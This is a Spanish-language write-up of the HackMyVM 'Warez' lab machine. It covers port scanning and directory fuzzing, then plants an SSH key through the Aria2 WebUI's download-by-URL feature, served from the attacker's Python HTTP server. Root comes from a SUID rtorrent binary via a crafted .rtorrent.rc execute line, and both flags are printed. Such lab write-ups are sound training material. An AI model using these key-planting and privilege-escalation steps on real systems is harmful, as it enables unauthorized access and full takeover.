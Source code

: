 ```yaml
---
icon: flag
---
```


# Warez HackMyVM (Easy - Linux)

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-29 03:19 EDT
Nmap scan report for 192.168.5.30
Host is up (0.00038s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   3072 cc:00:63:dd:49:fb:1c:c7:ac:69:63:bc:05:1a:59:cd (RSA)
|   256 9b:19:49:25:eb:9c:60:c5:2b:ec:2a:d4:fd:d1:c2:f4 (ECDSA)
|_  256 41:16:e6:d0:a0:da:22:4f:07:3f:c8:cf:60:2c:02:79 (ED25519)
80/tcp   open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Aria2 WebUI
6800/tcp open  http    aria2 downloader JSON-RPC
|_http-title: Site doesn't have a title.
MAC Address: 08:00:27:D5:26:02 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.10 seconds
```

Veremos varios puertos interesantes, entre ellos el puerto `80` y el puerto `6800` vamos a ver que contiene cada uno de ellos, si nos vamos al puerto `80` veremos una pagina web normal y corriente sin nada interesante de forma aparente, ahora si nos vamos al puerto `6800` veremos una pantalla en negro como que esta cargando algo pero que no lo llega hacer ya que puede requerir algo mas, vamos a realizar `fuzzing` en los `2` puertos a ver que encontramos.

## Gobuster

```shell
gobuster dir -u http://<IP>/ -w <WORDLIST> -x html,php,txt -t 50 -k -r
```

Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.5.30/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 81758]
/flags                (Status: 403) [Size: 153]
/robots.txt           (Status: 200) [Size: 12]
/result.txt           (Status: 200) [Size: 1585]
[!] Keyboard interrupt detected, terminating.
Progress: 312843 / 882244 (35.46%)
===============================================================
Finished
===============================================================
```

## Escalate user carolina

No encontraremos nada interesante, pero si volvemos a buscar en el puerto `80` veremos esta opcion interesante llamada `Add` -> `By URLs` y veremos un campo que sera el siguiente:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-05-29 093102.png" alt=""><figcaption></figcaption></figure>

Veremos que nos podremos descargar un archivo de forma local en el servidor, desde una `URL` por lo que vamos a probar a establecer un servidor de `python3` y que se nos pase a la carpeta de `carolina` el archivo de `authorized_keys` vamos a realizar lo siguiente.

```shell
ssh-keygen -t rsa -b 4096 -f ~/.ssh/id_rsa
```

```shell
cp ~/.ssh/id_rsa .
cat ~/.ssh/id_rsa.pub > authorized_keys
```

Una vez echo esto haremos lo siguiente.

```shell
python3 -m http.server
```

Desde la pagina vamos a rellenar la informacion de esta forma:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-05-29 094020.png" alt=""><figcaption></figcaption></figure>

Una vez dandole al `Start` veremos que se esta subiendo, en el servidor de `python3` vemos que se descargo el archivo y si probamos a meternos mediante la `id_rsa` de nuestro usuario del `host`.

### SSH

```shell
ssh -i id_rsa carolina@<IP>
```

Con esto estaremos dentro.

```
The authenticity of host '192.168.5.30 (192.168.5.30)' can't be established.
ED25519 key fingerprint is SHA256:6KuYVOialBusL5WnriRRpDGS7zkNND0tbubZE160qDo.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.5.30' (ED25519) to the list of known hosts.
Linux warez 5.10.0-8-amd64 #1 SMP Debian 5.10.46-4 (2021-08-03) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Aug 31 02:43:08 2021 from 192.168.1.51
carolina@warez:~$ whoami
carolina
```

Por lo que leeremos la `flag` del usuario.

> user.txt

```
HMVKeepdownloading
```

## Escalate Privileges

Si listamos los permisos `SUID` que tenemos en el sistema veremos lo siguiente:

```shell
find / -type f -perm -4000 -ls 2>/dev/null
```

Info:

```
134030     36 -rwsr-xr-x   1 root     root        35040 Jul 28  2021 /usr/bin/umount
   129908     88 -rwsr-xr-x   1 root     root        88304 Feb  7  2020 /usr/bin/gpasswd
   129909     64 -rwsr-xr-x   1 root     root        63960 Feb  7  2020 /usr/bin/passwd
   133492     44 -rwsr-xr-x   1 root     root        44632 Feb  7  2020 /usr/bin/newgrp
   134028     56 -rwsr-xr-x   1 root     root        55528 Jul 28  2021 /usr/bin/mount
   129906     52 -rwsr-xr-x   1 root     root        52880 Feb  7  2020 /usr/bin/chsh
   147812   2040 -rwsr-sr-x   1 root     root      2087648 Dec 29  2019 /usr/bin/rtorrent
   133658     72 -rwsr-xr-x   1 root     root        71912 Jul 28  2021 /usr/bin/su
   129905     60 -rwsr-xr-x   1 root     root        58416 Feb  7  2020 /usr/bin/chfn
   132259     52 -rwsr-xr--   1 root     messagebus    51336 Feb 21  2021 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
   144105    472 -rwsr-xr-x   1 root     root         481608 Mar 13  2021 /usr/lib/openssh/ssh-keysign
```

Veremos esta linea de aqui:

```
147812   2040 -rwsr-sr-x   1 root   root  2087648 Dec 29  2019 /usr/bin/rtorrent
```

Vamos a buscar si hay alguna escalada o vulnerabilidad para poder ser `root`.

```shell
echo "execute = /bin/sh,-p,-c,\"/bin/sh -p <$(tty) >$(tty) 2>$(tty)\"" >~/.rtorrent.rc /usr/bin/rtorrent
```

Info:

```
# whoami
root
```

Veremos que con esto seremos `root`, por lo que leeremos la `flag` de `root`.

> root.txt

```
HMVKeepsharing
```
